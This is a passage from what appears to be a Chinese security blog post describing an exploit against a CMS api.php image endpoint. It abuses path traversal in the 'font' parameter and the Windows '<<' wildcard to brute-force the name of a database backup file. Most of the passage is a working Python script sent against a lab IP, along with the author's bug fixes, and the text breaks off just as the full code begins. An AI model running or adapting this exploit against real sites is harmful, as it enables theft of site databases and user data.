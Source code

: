 ```
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"

print("备份sql文件地址为：",backup_sql+".sql")
```
&#160; &#160; &#160; &#160;乍一看没啥大的问题，但是我在实际测试的时候发现了一个问题，因为这个文件名，不一定都是小写，有的可能是大写，虽然对于win系统中大小写无差别，但是当python在爆破文件名的时候，因为字典没定义大写，可能遇到是大写的字母就直接程序运行结束，一开始我就是遇到这个问题了，所以不管怎么跑，跑出来的备份数据库名不对。后来我优化了一下代码如下：
```
# coding=utf-8
import requests
import itertools
characters = "abcdefghjklmnopqrstuvwxyz0123456789ABCDEFGHIGKLMNOPQRSTUVWXYZ_.-"
backup_sql = ""
payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
url = "http://192.168.1.113"
flag = 0
for num in range(1,7):
    if flag:
        break
    for pre in itertools.permutations(characters,num):
        pre = ''.join(list(pre))
        payload = payload.format(location=pre)
        r = requests.get(url+payload)
        if r.status_code == 200 and "PNG" in r.text:
            flag = 1
            backup_sql = pre
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
print("[+] 前缀为：",backup_sql)
flag = 0
for i in range(30):
    if flag:
        break
    for ch in characters:
        if ch == characters[-1]:
            flag = 1
            break
        payload = payload.format(location=backup_sql+ch)
        r = requests.get(url + payload)
        if r.status_code == 200 and "PNG" in r.text:
            backup_sql += ch
            print("[+] ",backup_sql)
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"
            break
        else:
            payload = "/api.php?op=creatimg&txt=mochazz&font=/../../../../caches/bakup/default/{location}<<"

print("备份sql文件地址为：",backup_sql+".sql")
```
&#160; &#160; &#160; &#160;嗯，这下看起来应该没问题，接着又跑了一下，问题特么又来了，循环次数不够，没跑完就结束了！因为一开始没搭建本地环境也不知道备份数据库文件名有多少，就往大了猜，就把循环设置为了100，这下子应该是没毛病了。完整代码如下：
```
# coding=utf-8
import requests
```